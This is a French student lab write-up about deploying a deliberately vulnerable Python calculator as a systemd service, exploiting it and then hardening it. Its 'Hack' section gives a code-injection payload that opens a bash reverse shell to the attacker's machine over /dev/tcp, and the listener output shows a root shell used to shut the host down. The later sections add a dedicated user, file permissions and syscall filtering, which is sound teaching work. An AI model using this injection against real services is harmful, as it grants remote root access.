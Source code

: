 # Part IV : My shitty app

**[une application Python (toute pourrie) codée avec mes mains](./calc.py) :**

- elle écoute sur un port TCP
- un client peut se connecter (genre avec `nc`)
- le client peut soumettre une opération arithmétique
- l'application calcule le résultat et l'envoie au client
- l'application se termine

## 1. Création de service

🌞 **Créer un service `calculatrice.service`**

```ini
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```bash
# on indique à systemd de relire les fichiers de définition de service
sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

- exécutez un simple `systemctl status calculatrice`
```ps
[cauchemar@vbox ~]$ systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; enabled; preset: disabled)
     Active: active (running) since Wed 2025-02-19 22:30:50 CET; 1min 23s ago
   Main PID: 1359 (python3)
      Tasks: 1 (limit: 11101)
     Memory: 3.3M
        CPU: 44ms
     CGroup: /system.slice/calculatrice.service
             └─1359 /usr/bin/python3 /opt/calc.py

Feb 23 15:36:20 vbox systemd[1]: Started Super serveur calculatrice.
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- on peut se connecter depuis notre PC
```ps
PS C:\Users\cauchemar> ncat 10.1.1.11 13337
hello
Hello3+4
7
```
- l'affichage de l'application est disponible dans les logs : 
```ps
journalctl -xe -u calculatrice
Feb 23 15:39:26 vbox systemd[1]: Started Super serveur calculatrice.
   Subject: A start job for unit calculatrice.service has finished successfully
   Defined-By: systemd
   Support: https://wiki.rockylinux.org/rocky/support  
   A start job for unit calculatrice.service has finished successfully.
  
   The job identifier is 907. 
```

## 3. Hack

🌞 **Hack l'application**




J'ai utilisé un reverse shell vers le port 4444 de ma machine perso.
Voila ce que j'écris dans l'application : 
```ps
PS C:\Users\cauchemar> ncat 10.1.1.11 13337
hello
Hello__import__('os').system('bash -c "bash -i >& /dev/tcp/10.1.1.0/4444 0>&1"')
```
Dans mon reverse shell : 
```ps
PS C:\Users\cauchemar> ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.1.11:44150.
bash: cannot set terminal process group (1496): Inappropriate ioctl for device
bash: no job control in this shell
[root@vbox /]# whoami
whoami
root
[root@vbox /]# shutdown now
shutdown now
[root@vbox /]#
PS C:\Users\cauchemar>
```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```ps 
[cauchemar@vbox ~]$ ps aux | grep calc.py
root         680  0.0  0.4  10892  8576 ?        Ss   23:30   0:00 /usr/bin/python3 /opt/calc.py
```
```ps
[cauchemar@vbox ~]$ ps aux | grep calculatrice
cauchemar        1302  0.0  0.1   6408  2304 pts/0    S+   23:36   0:00 grep --color=auto calculatrice
```

🌞 **Créer l'utilisateur `calculatrice`**

```ps
sudo useradd -r -s /sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```ps
sudo chown calculatrice:calculatrice /opt/calc.py
```
```ps
sudo chmod 700 /opt/calc.py
```
🌞 **Modifier le `.service`**

- On ajoute la clause `User=calculatrice`

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```ps
[cauchemar@vbox ~]$ ps aux | grep calc.py
calcula+    1353  0.7  0.4  10828  8192 ?        Ss   23:43   0:00 /usr/bin/python3 /opt/calc.py
cauchemar        1355  0.0  0.1   6412  2304 pts/0    S+   23:43   0:00 grep --color=auto calc.py
```

### B. Syscalls

Bon bah ouais on revient au thème du TP, vous le voyez venir :D

🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal

sortie sysdig --> [calculatrice.scap](./calculatrice.scap)

🌞 **Tracez l'exécution de l'application : hack**

- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?

```ps
switch
```



🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`
- vérifiez que l'exploitation est devenue plus compliquée

```ps
[cauchemar@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
User=calculatrice
Restart=always

SystemCallFilter=~fork clone vfork

[Install]
WantedBy=multi-user.target
```

Fichier --> [calculatrice.service](./calculatrice.service)
